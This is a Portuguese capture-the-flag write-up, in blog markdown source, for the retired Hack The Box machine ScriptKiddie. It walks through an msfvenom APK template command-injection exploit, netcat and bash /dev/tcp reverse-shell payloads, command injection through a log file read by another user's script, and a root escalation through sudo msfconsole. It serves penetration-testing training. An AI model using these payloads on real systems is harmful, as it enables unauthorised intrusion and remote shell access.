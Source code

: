 ```yaml
---
layout: single
title: "Hackthebox write-up: ScriptKiddie"
namespace: htb-scriptkiddie
category: Writeup
tags: HackTheBox htb-easy htb-linux
date: 2021-06-05 16:00:00
header:
   teaser: https://i.imgur.com/wHnMfBz.png
---
```


Olá pessoal!

A máquina desta semana será **ScriptKiddie**, outra máquina Linux classificada como fácil do [Hack The Box](https://www.hackthebox.eu), criada por [0xdf](https://app.hackthebox.eu/users/4935).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as respectivas máquinas são aposentadas
{: .notice--info}

![HTB ScriptKiddie](https://i.imgur.com/W5wv9JE.png){: .align-center}

## Enumeração

Como de costume, iniciado enumeração com um scan rápido do `nmap` para verificar os serviços publicados nesta máquina.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.226                                                                   

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 14:05 -03
Nmap scan report for 10.10.10.226
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds
```

### 5000/TCP - Serviço HTTP

Ao acessar a página notado algumas ferramentas a serem utilizadas por algum script kiddie como executar um scan utilizando o `nmap`, criar um payload no `msfvenom` e buscar por exploits utilizando o `searchsploit`.

Tentei diversas formas de injeção de código neste formulário, inclusive tentando algo automatizado como por exemplo a ferramenta [commixproject/commix](https://github.com/commixproject/commix) que encontrei no Github, porém sem sucesso desta vez.

Buscando por vulnerabilidades nas ferramentas utilizadas pela página (`nmap`, `msfvenom`, `searchsploit`), acabei encontrando uma relacionada ao `msfvenom`, conforme abaixo:

```bash
$ searchsploit msfvenom
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection | multiple/local/49491.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Aceso inicial e User flag

Alterado arquivo python com o payload desejado `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, encontrei alguns erros durante a execução do binário `keytool`, uma vez que este tenta assinar um arquivo APK com o payload no Common Name mas, uma vez que existia um caracter `+` no conteúdo codificado em base64 na primeira iteração, precisei modificá-lo para codificá-lo novamente, gerando um payload desta vez com sucesso a ser enviado na ferramenta e utilizado na exploração da vulnerabilidade no portal:

```python
# Change me
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
if '+' in payload_b64:
    payload_b64 = b64encode(payload_b64.encode()).decode()
    decode = '| base64 -d | base64 -d'
else:
    decode = '| base64 -d'

dname = f"CN='|echo -n {payload_b64} {decode} | sh #"
```

Abaixo podemos ver o output da criação do payload gerado, no caso o arquivo `evil.apk`

```bash
$ python3 49491.py                                                                                                               
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
-dname: CN='|echo -n Y20wZ0wzUnRjQzltTzIxclptbG1ieUF2ZEcxd0wyWTdZMkYwSUM5MGJYQXZabnd2WW1sdUwzTm9JQzFwSURJK0pqRjhibU1nTVRBdU1UQXVNVFF1TVRNMklEUTBORE1nUGk5MGJYQXZaZz09 | base64 -d | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpt7qr4ner/evil.apk
Do: msfvenom -x /tmp/tmpt7qr4ner/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Após gerado o arquivo APK contendo o payload, executado um request no portal com os dados sugeridos no final da execução do script anterior, apontando para o LHOST 127.0.0.1 e selecionando o tipo de payload android, que deverá ser traduzido para o payload `android/meterpreter/reverse_tcp`.

![Submiting the evil payload](https://i.imgur.com/hWgxfFw.png){: .align-center}

Após clicar no botão **Generate**, um shell reverso foi retornado no listener inicializado previamente conforme especificado durante a criação do payload.

![reverse shell returned](https://i.imgur.com/VAYnB2r.png){: .align-center}

Nesta mesma sessão obtida, com as credenciais em que o aplicativo se encontrava em execução, no caso o usuário `kid`, foi possível obter a flag de usuário.

```bash
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~$ cat /home/kid/user.txt
<redacted>
```

## Root flag

Depois de executar o `linenum.sh`, notado que existe outro usuário na máquina, `pwn`, e que tínhamos direito de leitura em seu perfil de diretório, o qual continha um arquivo chamado `scanloosers.sh` com o seguinte conteúdo:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Uma vez que este script lê o conteúdo de um arquivo localizado no perfil do usuário `kid` (`/home/kid/logs/hackers`), editado seu conteúdo com o valor abaixo, de modo que fosse possível injetar o código necessário para a obtenção de um novo shell reverso com a conta `pwn`, que aparentemente executaria este script de forma recorrente.

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' #" > ~/logs/hackers
```

Após definir o novo listener e alterar o arquivo `hackers`, um novo shell reverso foi retornado, desta vez com a conta `pwn` :smile:

Enumerando novamente a máquina, desta vez a partir da conta deste novo usuário utilizando o `linpeas.sh`, notei que este user possuía direitos de execução do `msfconsole` de modo privilegiado.

```plaintext
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Ao instanciar a console utilizando o `sudo`, pude executar comandos normalmente utilizando o privilégio de `root`, podendo assim ler o arquivo `/root/root.txt` e obter a flag final desta máquina

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

<redacted>
msf6 >
```

Espero que tenham gostado!

Nos vemos no próximo post :smiley:
